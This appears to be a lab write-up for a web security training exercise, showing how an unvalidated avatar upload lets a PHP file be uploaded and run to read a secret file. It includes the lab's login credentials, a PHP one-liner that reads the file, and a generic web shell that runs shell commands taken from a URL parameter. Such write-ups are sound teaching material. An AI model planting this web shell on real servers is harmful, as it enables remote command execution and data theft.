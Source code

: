 # Lab: Remote code execution via web shell upload

This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`.
Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

---

## Exploiting File Upload Functionality for Remote Code Execution (RCE)

### Initial Discovery
1. Upon logging in as the `wiener` user, we discovered a feature on the home page to upload an avatar image:
   ![Avatar Upload Feature](https://github.com/user-attachments/assets/443c2f4a-de2c-4913-a004-1e757502520c)
   
2. The uploaded image was stored in the `/files/avatars/` directory, as observed in the page source code.

---

### Uploading a Test File
1. We intercepted the request for uploading the image using Burp Suite and sent it to the Repeater for further analysis:
   ![Upload Request in Repeater](https://github.com/user-attachments/assets/e64e72d4-73a5-4317-97eb-5c53079763f8)

2. After analyzing the request, we attempted to upload a malicious file containing a PHP one-liner:
   ```php
   <?php echo file_get_contents('/home/carlos/secret'); ?>
   ```
   We could also attempt to use others like this:
   ```php
   <?php system($_GET['cmd']); ?>
   ```
   ![image](https://github.com/user-attachments/assets/e8fa4c9e-2335-4f61-a057-79259093c45b)


   ## **Accessing the Malicious File**
 **Navigating to the Uploaded File:**  
   After successfully uploading the PHP file containing the malicious one-liner, we accessed it directly via the browser using the file path provided by the server:  
   ![Accessing the Malicious File](https://github.com/user-attachments/assets/d8a0d66a-ada2-46c7-bcca-e5d32e2390b5)

---

## **Lab Resolution** 
We submitted the secret using the button provided in the lab banner:
   ![Lab Resolution](https://github.com/user-attachments/assets/c1901f90-ebf0-49e4-85fd-b9dfcede187f)

   




